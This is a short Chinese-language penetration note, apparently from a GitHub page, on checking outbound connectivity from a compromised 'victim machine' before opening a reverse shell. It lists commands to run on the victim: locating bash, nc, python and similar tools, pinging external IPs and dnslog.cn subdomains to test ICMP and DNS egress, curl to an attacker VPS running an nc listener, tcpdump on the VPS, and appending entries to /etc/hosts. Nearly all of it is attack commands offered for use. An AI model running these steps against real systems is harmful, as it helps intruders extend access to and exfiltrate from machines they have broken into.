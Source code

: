### 场景
拿到一个命令执行的口子后，想要反弹shell，需要先判断目标是否出网

### 解决
1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
```
3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xx.dnslog.cn
查看反连平台

查看一下/etc/resolv.conf及/etc/hosts

经测试，想要修改hosts，如下使用sudo是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行，如下：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```

### 参考链接
https://www.freebuf.com/vuls/211847.html  
